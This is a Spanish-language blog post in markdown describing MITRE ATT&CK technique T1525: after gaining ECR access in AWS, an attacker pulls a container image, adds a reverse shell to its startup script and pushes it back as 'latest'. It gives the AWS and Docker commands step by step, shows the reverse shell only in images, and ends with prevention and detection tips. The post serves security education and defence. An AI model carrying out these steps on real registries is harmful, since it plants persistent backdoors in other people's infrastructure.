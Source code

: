 ```yaml
---
title: "Persistencia en AWS con implantes en imágenes de contenedores"
author: Adan Alvarez
classes: wide
excerpt: "Una de las tácticas más comunes cuando un atacante logra el acceso inicial es obtener persistencia. El objetivo de esta es mantenerse en la infraestructura pese a que se reinicie el equipo, las contraseñas o haya cualquier interrupción que pueda interrumpir el acceso inicial. Una de las técnicas utilizadas para obtener persistencia en AWS si en la cuenta se usa Amazon Elastic Container Registry (ECR) es añadiendo implantes en las imágenes de los contenedores."
categories:
  - AWS
tags:
  - Red Team
  - Persistencia
  - MITRE ATT&CK
  - Containers
---
```

Una de las tácticas más comunes cuando un atacante logra el acceso inicial es obtener persistencia. El objetivo de esta es mantenerse en la infraestructura pese a que se reinicie el equipo, las contraseñas o haya cualquier interrupción que pueda interrumpir el acceso inicial. Una de las técnicas utilizadas para obtener persistencia en AWS si en la cuenta se usa [Amazon Elastic Container Registry (ECR)](https://aws.amazon.com/es/ecr/) es añadiendo implantes en las imágenes de los contenedores.
{: style="text-align: justify;"}

Esta técnica la encontramos bajo en nombre [*Implant Container Image*](https://attack.mitre.org/techniques/T1525/) en [Mitre Att&ck](https://donttouchmy.net/mitre-attck-defiende-teniendo-en-cuenta-las-tacticas-y-tecnicas-del-adversario/) y tiene el ID T1525.
{: style="text-align: justify;"}

Estos son los pasos que podría seguir un atacante para lograr persistencia en AWS tras conseguir un usuario con permisos al ECR:
{: style="text-align: justify;"}

En primer lugar, es necesario listar los repositorios que existen en la cuenta:
{: style="text-align: justify;"}
```
aws ecr describe-repositories
```
Tras descubrir los repositorios, se pueden listar las imágenes del repositorio con el comando:
{: style="text-align: justify;"}
```
aws ecr describe-images --repository-name NOMBREREPOSITORIO
```
Una vez obtenido el nombre del repositorio y de las imágenes, un atacante podría descargar una de ellas, modificarla añadiendo código malicioso y subirla de nuevo. Esto se podría realizar de la siguiente manera:
{: style="text-align: justify;"}

Para poder descargar imágenes necesitaremos un cliente Docker , pero antes, deberemos obtener un token de autenticación y autenticar nuestro cliente Docker al registro:
{: style="text-align: justify;"}
```
aws ecr get-login-password --region REGION | docker login --username AWS --password-stdin IDCUENTAAWS.dkr.ecr.REGION.amazonaws.com
```
Tras la autenticación se podrá descargar una imagen, en el siguiente comando se descargará la imagen con el tag latest:
{: style="text-align: justify;"}
```
docker pull IDCUENTAAWS.dkr.ecr.REGION.amazonaws.com/NOMBREREPOSITORIO:latest
```
Una vez descargada la imagen, será posible ejecutarla en local:
{: style="text-align: justify;"}
```
docker run --detach NOMBREIMAGEN
```
Y acceder a ella para realizar modificaciones:
{: style="text-align: justify;"}
```
docker exec -it IDCONTAINER bash
```
Las modificaciones para conseguir persistencia dependerán de la imagen descargada. En el siguiente ejemplo tenemos una imagen que ejecuta al iniciar el script run_apache.sh
{: style="text-align: justify;"}

[![persistencia en AWS](https://donttouchmy.net/wp-content/uploads/2020/09/init-300x77.png)](https://donttouchmy.net/wp-content/uploads/2020/09/init.png)

Por lo tanto, un método para poder obtener persistencia es modificar el script que se ejecuta al inicio con una reverse shell:
{: style="text-align: justify;"}

[![](https://donttouchmy.net/wp-content/uploads/2020/09/modify_init-300x33.png)](https://donttouchmy.net/wp-content/uploads/2020/09/modify_init.png)

Tras realizar los cambios será necesario guardar el contenedor modificado como nueva imagen:
{: style="text-align: justify;"}
```
docker commit CONTAINERID NOMBREIMAGEN
```
Después de esto añadimos el tag que se estaba utilizando en ECR, en este caso latest:
{: style="text-align: justify;"}
```
docker tag NOMBREIMAGEN:latest IDCUENTAAWS.dkr.ecr.REGION.amazonaws.com/NOMBREREPOSITORIO:latest
```
y por último hacemos un push para que la imagen se almacene en el registro de AWS.
{: style="text-align: justify;"}

docker push IDCUENTAAWS.dkr.ecr.REGION.amazonaws.com/NOMBREREPOSITORIO:latest

Tras esto solo quedará esperar que la nueva imagen se ejecute y recibir la reverse shell:
{: style="text-align: justify;"}

[![persistencia en AWS](https://donttouchmy.net/wp-content/uploads/2020/09/reverse_shell-300x63.png)](https://donttouchmy.net/wp-content/uploads/2020/09/reverse_shell.png)

Además de manualmente, esta técnica puede ser realizada de forma algo más automática mediante [CCAT](https://github.com/RhinoSecurityLabs/ccat).
{: style="text-align: justify;"}

La prevención de esta técnica pasa por una correcta gestión de permisos. Además, podemos realizar verificaciones periódicas de integridad para confirmar que las imágenes no han sido modificadas. Para tratar de detectar esta técnica es importante controlar las peticiones a [Amazon Elastic Container Registry](https://aws.amazon.com/es/ecr/).
{: style="text-align: justify;"}
